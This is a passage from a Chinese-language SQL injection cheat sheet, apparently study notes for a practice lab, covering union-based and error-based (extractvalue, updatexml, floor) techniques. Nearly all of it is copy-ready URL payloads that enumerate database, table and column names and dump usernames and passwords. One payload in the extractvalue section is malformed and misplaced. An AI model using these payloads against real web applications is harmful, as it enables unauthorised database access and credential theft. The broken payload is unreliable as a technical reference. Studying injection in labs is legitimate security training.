 - `异或运算`

------

### SQL注入(3306)

> 分类 --> 11种(搜索型,字符型,整数型)

#### `联合查询注入`

```sql
#查询字段数
?id=-1'order by 4 --+
#判断回显点
?id=-1'union select 1,2,3 --+
#获取数据库名
?id=-1'union select 1,2,database()--+
#获取表名
?id=-1'union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database()--+
#获取users表字段名
?id=-1'union select 1,2,group_concat(column_name) from information_schema.columns where table_schema=database() and table_name="users"--+
#获取所有数据
?id=-1'union select 1,2,group_concat(id,username,password) from security.users--+
```

------

#### `报错注入`

> 相关函数`extractvalue`,`updatexml`,`floor`,`name_const`,`exp`,`json_type`,`json_extract`,`json_array_append`,`multipoint`,`linestring`,`multilinestring`,`polygon`

- `extractvalue`

```sql
# extractvalue(arg1,arg2)
#获取数据库名
?id=1'and extractvalue(1,concat(0x3a,database(),0x3a))--+
#获取表名
?id=1'and extractvalue(1,concat(0x3a,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x3a)) --+
#获取users表的字段
?id=1'and extractvalue(1,concat(0x3a,(select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name="users"),0x3a)) --+
#获取所有数据
?id=-1'union select 1,2,select table_name from information_schema.tables where table_schema=database()--+
```

- `updatexml`-->跟`extractvalue`一样,不同点就是多了个参数,`updatexml(arg1,arg2,arg3)`
- `floor(rand(0)*2)`-->对生成的0-2之间的随机数向下取整,2条记录可能报错

```sql
#获取数据库名
?id=1' and (select 1 from (select count(*), concat(database(), floor(rand(0)*2)) as x from information_schema.tables group by x)a)--+
```
